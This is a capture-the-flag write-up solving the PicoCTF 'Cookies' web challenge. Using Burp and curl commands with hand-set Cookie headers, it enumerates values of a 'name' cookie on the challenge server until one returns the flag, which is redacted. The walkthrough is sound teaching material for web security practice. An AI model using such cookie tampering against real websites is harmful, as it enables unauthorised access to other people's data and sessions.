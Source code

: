 ```yaml
---
title: PicoCTF - Cookies
date: 2023-12-08
categories: [PicoCTF, Web Exploitation]
tags: [picoctf, web-exploitation, cookies, http-requests, burp-suit, curl]
img_path: /assets/picoctf/web_exploitation/cookies
published: true
---
```


![](cookie_banner.png){: width='60%' .normal}

Visiting the link:

![](home.png){: width='60%' }

Putting `snickerdoodle` as input results to:

![](snickerdoodle_cookie.png)

Intercepting the traffic with Burp and refreshing the page:

![](0_snickerdoodle.png)

We have a cookie called `name` set to value `0`. Playing around with different cookie values results to different responses, including the flag:

![](1_choc.png)

![](2_oat.png)

![](18_flag.jpg)

![](28_mac.png)

We can also do the same process using `curl`:

```shell
# getting the head info
curl http://mercury.picoctf.net:29649/ -I
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 209
Location: http://mercury.picoctf.net:29649/
Set-Cookie: name=-1; Path=/
```

We can see there there is a cookie called `name` with the value of `-1`. We can set our own value and see what happens:

```shell
# setting cookie's value to 0
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=0;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
```

```shell
# setting cookie's value to 1
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=1;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
          <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
```

```shell
# setting cookie's value to 18
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;" | grep -i Cookie
    <title>Cookies</title>
            <h3 class="text-muted">Cookies</h3>
```

We notice that when the cookie to `name=18` it does not return any cookie back! We can inspect the full response:

```shell
# getting the full response back
curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=18;"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{<SNIP>}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>
```